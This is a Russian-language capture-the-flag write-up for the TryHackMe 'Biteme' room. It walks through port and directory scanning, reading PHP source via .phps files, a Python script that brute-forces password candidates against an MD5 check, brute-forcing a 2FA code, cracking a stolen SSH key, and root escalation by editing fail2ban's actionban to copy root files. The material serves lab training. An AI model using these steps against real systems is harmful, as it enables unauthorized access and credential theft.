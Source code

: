 # Biteme

:white_check_mark:  [**Php highlighting**](#php)

:white_check_mark: [**Md5**](#md5)

:white_check_mark: [**Fail2ban**](#fail2ban)
___

## Enumeration
Сканируем ip командой:
```
nmap -sC -sV biteme.thm
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 89:ec:67:1a:85:87:c6:f6:64:ad:a7:d1:9e:3a:11:94 (RSA)
|   256 7f:6b:3c:f8:21:50:d9:8b:52:04:34:a5:4d:03:3a:26 (ECDSA)
|_  256 c4:5b:e5:26:94:06:ee:76:21:75:27:bc:cd:ba:af:cc (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Сканируем директории командой:
```
gobuster dir -u http://biteme.thm -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

```
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://biteme.thm
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/03/17 19:18:42 Starting gobuster in directory enumeration mode
===============================================================
/console              (Status: 301) [Size: 310] [--> http://biteme.thm/console/]
```

Перейдем в директорию **/console**

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Biteme/1.png)

В коде страницы находим интересную функцию:
```
function handleSubmit() {
    eval(function (p, a, c, k, e, r) {
        e = function (c) {
            return c.toString(a)
        };
        if (!''.replace(/^/, String)) {
            while (c--) r[e(c)] = k[c] || e(c);
            k = [function (e) {
                return r[e]
            }];
            e = function () {
                return '\\w+'
            };
            c = 1
        };
        while (c--)
            if (k[c]) p = p.replace(new RegExp('\\b' + e(c) + '\\b', 'g'), k[c]);
        return p
    }('0.1(\'2\').3=\'4\';5.6(\'@7 8 9 a b c d e f g h i... j\');', 20, 20, 'document|getElementById|clicked|value|yes|console|log|fred|I|turned|on|php|file|syntax|highlighting|for|you|to|review|jason'.split('|'), 0, {}))
    return true;
```

(Был исползован [deobfuscate js](https://lelinhtinh.github.io/de4js/) для придания более читаемого вида)

<a name="php"></a>

Нам оставили подсказку в виде **php file syntax highlighting**. Поискав в интеренете, находим [мануал](https://www.php.net/manual/ru/function.highlight-file.php). Стрыницы с подсветкой кода используют расширение **phps**.

Попробуем перейти в директорию **/console/index.phps**. В коде страницы находим следующее:

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Biteme/2.png)

Мы видим еще один файл **functions.php**. Попробуем использовать расширение **phps**.

В коде элемента мы видим, как проверяются имя пользователя и пароль, а также использование файла **config.php**. 

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Biteme/3.png)

Перейдем в этот файл используя расширение **phps**. В коде элемента находим закодированное имя пользователя(username: jason_test_account).

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Biteme/4.png)

В файле **functions.phps**, также можно увидеть, как проверяется пароль пользователя. Код преобразует пароль в md5 хэш и сравнивает его последние 3 числа со значением '001'.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Biteme/3.png)

<a name="md5"></a>

## Coding
Напишем код на питоне, который преобразует все пароли из словаря rockyou.txt в хэш md5 и сравнит их со значением '001'.

```
import hashlib

file = open('/usr/share/wordlists/rockyou.txt', 'r')
file_read = file.read()


words = list(file_read.split())

for word in words:
	hash = hashlib.md5(word.encode('utf-8')).hexdigest()
	if hash[-3::] == '001':
		print(word)
		print(hash)
```

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Biteme/5.png)

Найденные пароли:

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Biteme/6.png)

Используем данные и логинимся. Нас встречает панель двухфакторной верификации, требующая 4-ех значный код. 

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Biteme/7.png)

Используя Burp intruder, подберем значение кода.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Biteme/8.png)

## Getting shell

Получаем доступ к аккаунту. На странице мы видим два поля, позволяющие просматривать директории и читать файлы сервера.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Biteme/9.png)

Просмотрев директории пользователей, находим приватный ключ.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Biteme/10.png)

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Biteme/11.png)

Копируем его к себе на машину. С помощью ssh2john находим кодовую фразу. 
```
chmod 600 id_rsa

/usr/share/john/ssh2john.py id_rsa > hash

john hash -w=/usr/share/wordlists/rockyou.txt
```

Подключаемся к машине с помощью ключа.

## Privilege escalation

Просмотрим права пользователя.
```
sudo -l
```

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Biteme/12.png)

Видим, что мы можем перейти в аккаунт fred без пароля:
```
sudo -u fred bash
```

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Biteme/13.png)

<a name="fail2ban"></a>

Просмотрим права Фреда.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Biteme/14.png)

У нас есть права перезапуска fail2ban. Используем **find**, для поиска fail2ban в системе.
```
find / -name fail2ban 2>/dev/null
```

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Biteme/15.png)

Находим в интернете статью с представленной [уязвимостью](https://grumpygeekwrites.wordpress.com/2021/01/29/privilege-escalation-via-fail2ban/). Изменим значение actionban:
```
actionban = cp /root/root.txt /tmp/root.txt && chmod 777 /tmp/root.txt
```

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Biteme/16.png)

Получаем флаг рута.
